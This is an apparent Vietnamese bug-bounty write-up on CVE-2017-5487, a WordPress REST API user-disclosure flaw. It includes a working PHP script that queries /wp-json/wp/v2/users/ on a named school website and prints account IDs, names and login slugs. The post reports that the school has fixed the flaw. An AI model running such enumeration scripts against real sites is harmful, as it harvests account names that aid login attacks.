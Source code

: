 ```yaml
---
title: Tiền thưởng (CVE-2017-5487)
date: 25/03/2022
layout: single
header:
  teaser: /assets/images/wordpress.png
---
```


## Tiết lộ các tài khoản WordPress

Tiết lộ các tài khoản WordPress thông qua `/wp-json/wp/v2/users/` sử dụng php để dump tên tài khoản, và họ tên đăng bài

Việc tiết lộ thông tin nhạy cảm cho CVE-2017-5487

wp-gồm/rest-api/endpoints/class-wp-rest-users-controller.php trong quá trình triển khai API REST trong WordPress 4.7 trước 4.7.1 , điều này cho phép kẻ tấn công từ xa lấy được thông tin nhạy cảm thông qua yêu cầu wp-json/wp/v2/users.

Mức độ lỗ hổng: 5,3 TRUNG BÌNH

## Hướng dẫn

Thay đổi url trong đoạn code dưới đây

```shell
php file.php
```

[![Language](https://img.shields.io/badge/Lang-php-blue.svg)](https://www.php.net/)

```php
#!usr/bin/php
<?php
header ('Content-type: text/html; charset=UTF-8');


$url= "https://namsaigon.edu.vn/"; # url
$payload="/wp-json/wp/v2/users/";
$urli = file_get_contents($url.$payload);
$json = json_decode($urli, true);
if($json){
    echo "*-----------------------------*\n";
foreach($json as $users){
    echo "[*] ID :  |" .$users['id']     ."|\n";
    echo "[*] Name: |" .$users['name']   ."|\n";
    echo "[*] User :|" .$users['slug']   ."|\n";
    echo "\n";
}echo "*-----------------------------*";}
else{echo "[*] No user";}


?>

```

![](https://www8.0zz0.com/2021/07/15/15/128822449.jpg)

## Kết quả

Lỗ hổng đã được xác nhận qua mail của trường và đã được Fix

![](https://www5.0zz0.com/2023/03/15/10/222638956.png)
